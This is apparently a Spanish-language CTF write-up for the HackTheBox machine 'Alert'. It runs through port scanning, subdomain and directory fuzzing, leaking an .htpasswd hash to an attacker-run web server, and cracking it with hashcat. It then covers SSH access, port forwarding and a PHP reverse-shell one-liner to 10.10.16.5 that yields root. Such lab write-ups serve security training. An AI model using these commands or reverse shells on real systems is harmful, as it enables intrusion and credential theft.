

# Alert


<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con `Nmap` para ver los puertos que están expuestos en la máquina **`Alert`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.44 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-21 21:18 CET
Initiating SYN Stealth Scan at 21:18
Scanning 10.10.11.44 [65535 ports]
Discovered open port 22/tcp on 10.10.11.44
Discovered open port 80/tcp on 10.10.11.44
Completed SYN Stealth Scan at 21:18, 22.08s elapsed (65535 total ports)
Nmap scan report for 10.10.11.44
Host is up, received user-set (0.077s latency).
Scanned at 2025-01-21 21:18:21 CET for 22s
Not shown: 65532 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 22.17 seconds
           Raw packets sent: 69477 (3.057MB) | Rcvd: 69475 (2.779MB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.44
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p22,80 10.10.11.44 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-21 21:25 CET
Nmap scan report for alert.htb (10.10.11.44)
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   82.01 ms 10.10.16.1
2   41.41 ms alert.htb (10.10.11.44)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.73 seconds
```


```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


```bash
❯ catnp /etc/hosts | grep 10.10.11.44
10.10.11.44 alert.htb
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```markdown
❯ catnp example.md
# h1 Heading 8-)
## h2 Heading
### h3 Heading
#### h4 Heading
##### h5 Heading
###### h6 Heading

Alternatively, for H1 and H2, an underline-ish style:

Alt-H1
======

Alt-H2
------
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://alert.htb -H "Host:FUZZ.alert.htb" -ac -t 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://alert.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.alert.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

statistics              [Status: 401, Size: 467, Words: 42, Lines: 15, Duration: 94ms]// Some code
```


```bash
❯ cat /etc/hosts | grep 10.10.11.44
10.10.11.44 alert.htb statistics.alert.htb
```


<figure><figcaption></figcaption></figure>


```bash
❯ gobuster dir -u http://alert.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://alert.htb/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
/css                  (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/messages             (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/messages.php         (Status: 200) [Size: 1]
/contact.php          (Status: 200) [Size: 24]
```





<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.44 - - [21/Jan/2025 22:41:26] "GET /?file_content=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```


<figure><figcaption></figcaption></figure>


```bash
❯ hashid '$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/'
Analyzing '$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/'
[+] MD5(APR) 
[+] Apache MD5 

❯ hashcat -h | grep Apache
   1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)                      | FTP, HTTP, SMTP, LDAP Server
   
❯ hashcat -a 0 -m 1600 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...[snip]...

$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited 
```


```bash
❯ ssh albert@10.10.11.44
The authenticity of host '10.10.11.44 (10.10.11.44)' can't be established.
ED25519 key fingerprint is SHA256:p09n9xG9WD+h2tXiZ8yi4bbPrvHxCCOpBLSw0o76zOs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.44' (ED25519) to the list of known hosts.
albert@10.10.11.44's password: 

...[snip]...

albert@alert:~$ cat user.txt 
977a065a695ed4e13c56fcd257055753
```


```bash
albert@alert:~$ netstat -ano | grep LISTEN
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
```


```bash
albert@alert:~$ ps aux
...[snip]...
root        1003  0.0  0.6 207012 26488 ?        Ss   15:36   0:00 /usr/bin/php -S 127.0.0.1:8080 -t /opt/website-monitor
```


```bash
❯ ssh -L 127.0.0.1:8080:127.0.0.1:8080 albert@10.10.11.44
albert@10.10.11.44's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-200-generic x86_64)

Last login: Tue Jan 21 17:24:20 2025 from 10.10.16.5
albert@alert:~$
```


<figure><figcaption></figcaption></figure>


```bash
albert@alert:/opt/website-monitor/config$ id
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
albert@alert:/opt/website-monitor/config$ ls -l
total 4
-rwxrwxr-x 1 root management 49 Nov  5 14:31 configuration.php
```


```bash
albert@alert:/opt/website-monitor/config$ cat gzzcoo.php 
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.5/443 0>&1'"); ?>
albert@alert:/opt/website-monitor/config$ ls -l
total 8
-rwxrwxr-x 1 root   management 49 Jan 21 17:33 configuration.php
-rwxrwxr-x 1 albert management 75 Jan 21 17:32 gzzcoo.php
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```


```bash
❯ curl -s -X GET '127.0.0.1:8080/config/gzzcoo.php'
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.44] 50392
bash: cannot set terminal process group (1003): Inappropriate ioctl for device
bash: no job control in this shell
root@alert:/opt/website-monitor/config$ cat /root/root.txt
2352161ead25a3ffc27a2b17d3daa11b
```
